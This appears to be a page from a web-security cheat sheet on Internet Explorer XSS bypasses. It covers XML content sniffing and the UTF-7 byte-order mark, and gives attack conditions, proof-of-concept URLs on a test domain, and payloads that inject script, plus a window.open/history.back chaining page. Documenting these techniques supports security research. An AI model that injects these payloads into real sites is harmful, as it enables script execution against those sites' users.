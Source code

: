 ### Using Content Sniffing for XML (IE only)

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. `X-Content-Type-Options:nosniff`is not attached
3. Character strings can be written from the top of the page

Reference URL:

- [https://twitter.com/0x6D6172696F/status/753647521050849280](https://twitter.com/0x6D6172696F/status/753647521050849280)

PoCs:

[https://vulnerabledoma.in/bypass/text?q=%3C?xml%20version=%221.0%22?%3E%3Cx:script%20xmlns:x=%22http://www.w3.org/1999/ xhtml%22%3Ealert%281%26%23x29%3B%3C/x:script%3E](https://vulnerabledoma.in/bypass/text?q%3D%253C?xml%2520version%3D%25221.0%2522?%253E%253Cx:script%2520xmlns:x%3D%2522http://www.w3.org/1999/xhtml%2522%253Ealert%25281%2526%2523x29%253B%253C/x:script%253E)

```xml
<?xml version="1.0"?><x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1&#x29;</x:script>
```

### Use UTF-7 BOM (IE only)

Conditions for attacking:

1. Character strings can be written from the top of the page
2. `+`Symbols such as , `/`, `-`are allowed

supplement:

`+/v8`, `+/v9`, `+/v+`, are treated as `+/v/`UTF-7 [BOM .](https://ja.wikipedia.org/wiki/%25E3%2583%2590%25E3%2582%25A4%25E3%2583%2588%25E3%2582%25AA%25E3%2583%25BC%25E3%2583%2580%25E3%2583%25BC%25E3%2583%259E%25E3%2583%25BC%25E3%2582%25AF) In IE, if this string appears at the top of the page, the character code of the page is assumed to be UTF-7. Even if the character code is specified in the page, `history.back()`if you open it again via , the character code of that page will be treated as UTF-7. (Although the latter behavior was reported to Microsoft in July 2013, no changes have been made to date.)

PoCs:

(If there is no character code specified on the page) [https://vulnerabledoma.in/bypass/text?q=%2B/v8-%2BADw-script%2BAD4-alert(1)%2BADw-/script%2BAD4-](https://vulnerabledoma.in/bypass/text?q%3D%252B/v8-%252BADw-script%252BAD4-alert(1)%252BADw-/script%252BAD4-)

```html
+/v8-+ADw-script+AD4-alert(1)+ADw-/script+AD4-
```

(If the page has character code specification) [https://l0.cm/bypass/ie_utf7.html](https://l0.cm/bypass/ie_utf7.html)

```html
<script>
function go(){
  window.open("https://vulnerabledoma.in/bypass/text?q=%2B/v8-%2BADw-script%2BAD4-alert(location)%2BADw-/script%2BAD4-&charset=utf-8","a");
  setTimeout(function(){window.open("https://l0.cm/h_back.html","a")},1000);
}
</script>
<button onclick=go()>go</button>
```
